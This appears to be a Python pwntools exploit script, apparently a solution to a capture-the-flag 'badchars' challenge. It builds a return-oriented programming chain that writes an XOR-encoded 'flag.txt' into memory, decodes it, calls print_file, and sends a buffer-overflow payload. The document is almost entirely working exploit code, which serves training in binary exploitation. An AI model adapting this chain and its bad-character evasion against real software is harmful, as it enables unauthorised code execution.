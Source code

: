 ```python
xor_r15_r14_ret = p64(0x00400628)                          # xor byte [r15], r14b; ret;
write_memory_gadget = p64(0x00400634)                      # mov qword [r13], r12; ret;
pop_r12_pop_r13_pop_r14_pop_r15_ret = p64(0x0040069c)      # pop r12; pop r13; pop r14; pop r15; ret;
pop_r14_pop_r15_ret = p64(0x004006a0)                      # pop r14; pop r15; ret;
pop_rdi_ret = p64(rop.search(move=0,regs=['rdi']).address) # pop rdi; ret;

# Existing functions
print_file = p64(io.elf.plt['print_file'])

# Alphabets
plaintext_target = b"flag.txt"
badchars = b"xga.\n\r"
key = b"\x90"
target, encoded_byte_offsets = encode_badchars(plaintext_target, badchars, key)
info(f'XOR Key: {key}')
info(f'Encoded target: {target}')

# Write the encoded target to the .data section
idx = 0
addr_size = 8
while idx < len(target):
    data = target[idx:idx+addr_size]
    write_location = p64(writable_data_segment + idx)
    rop.raw(pop_r12_pop_r13_pop_r14_pop_r15_ret)
    rop.raw(data)
    rop.raw(write_location)
    rop.raw(p64(0xdeadbeefdeadbeef)) # junk for r14
    rop.raw(p64(0xdeadbeefdeadbeef)) # junk for r15
    rop.raw(write_memory_gadget)
    idx += addr_size

# Decode the encoded target in the .data segment one byte at a time
for encoded_byte_offset in encoded_byte_offsets:
    write_location = p64(writable_data_segment + encoded_byte_offset)
    rop.raw(pop_r14_pop_r15_ret)
    rop.raw(p64(ord(key)))
    rop.raw(write_location)
    rop.raw(xor_r15_r14_ret)

# Read the file
rop.raw(pop_rdi_ret)
rop.raw(writable_data_segment)
rop.raw(print_file)

# Make the payload
offset = 40
padding = key * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```
